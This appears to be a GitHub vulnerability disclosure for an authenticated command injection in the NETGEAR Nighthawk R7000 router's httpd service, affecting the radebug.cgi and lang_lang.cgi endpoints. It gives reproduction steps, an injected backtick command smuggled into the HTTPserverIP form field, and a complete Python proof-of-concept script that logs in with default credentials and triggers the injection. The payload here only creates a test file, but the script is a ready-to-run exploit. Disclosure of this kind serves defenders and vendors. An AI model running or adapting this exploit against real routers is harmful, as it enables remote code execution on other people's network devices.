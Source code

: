 # NETGEAR-R7000

>  NETGEAR Nighthawk Wireless Router R7000 httpd Command Injection Remote Code Execution Vulnerability
>
### Overview of the Vulnerability
There is a remote command injection vulnerability in the latest firmware version v1.0.11.208 of Nighthawk router R7000. The vulnerability exists in the httpd service. Request the "HTTPserverIP" parameter of "radebug.cgi" interface through POST, and set "ver_check_https_svr1". Then request the "lang_lang.cgi" interface through POST, trigger the command injection vulnerability. Authentication is required
### Steps to Reproduce
1.Access the http service of the router for login authentication;

2.On the basis of authentication, you need to construct a POST request to set the parameter "ver_check_https_svr1". Url = 'http://192.168.1.1:8080/radebug.cgi', data = "form=4&serverIP=updates1.netgear.com&HTTPserverIP=\`touch%20/tmp/test.txt\`&initStartTime=0"

3.After successfully setting the parameter "ver_check_https_svr1", send a POST request "lang_lang.cgi" to the httpd server. Url = 'http://192.168.1.1:8080/lang_lang.cgi', data = "Check=Check"

4.Check whether the test.txt file has been created in the tmp directory through UART, etc.

### Proof of Concept
The screenshot below demonstrates the RCE in the application through the specified parameter:


### POC
```
import requests
import sys
import re

def attack():
    # base64(admin:password)
    base64 = 'YWRtaW46cGFzc3dvcmQ='
    header={
        'Host':'192.168.1.1:80',
        'Authorization': 'Basic ' + base64,
        'Content-Type': 'application/x-www-form-urlencoded',
        'Connection': 'close',
    }


    url_1 = 'http://192.168.1.1:80/debug.htm'
    try:
        ret_1 = requests.get(url=url_1,
                      headers=header,
                      timeout=30,
                      )
    except Exception:
        return

    ##set ver_check_https_svr1(HTTPserverIP)=`touch /tmp/test.txt`
    url_2 = re.search(r'radebug.cgi\?id=.* ', ret_1.text).group()

    try:
        ret_2 = requests.post(url= "http://192.168.1.1:80/" + url_2[:-1],
                      headers=header,
                      data="form=4&serverIP=updates1.netgear.com&HTTPserverIP=`touch /tmp/test.txt`&initStartTime=0",
                      timeout=30,
                      )
    except Exception:
        return

    url_3 = 'http://192.168.1.1:80/LANG_lang.htm'

    try:
        ret_3 = requests.get(url= url_3,
                      headers=header,
                      timeout=30,
                      )
    except Exception:
        return

    url_4 = re.search(r'lang_lang.cgi\?id=.*\"', ret_3.text).group()

    ##execute commands '`touch /tmp/test.txt`'
    try:
        ret_4 = requests.post(url= "http://192.168.1.1:80/" + url_4[:-1],
                      headers=header,
                      data="Check=Check",
                      timeout=30,
                      )
    except Exception:
        return



if __name__ == "__main__":
    attack()
```

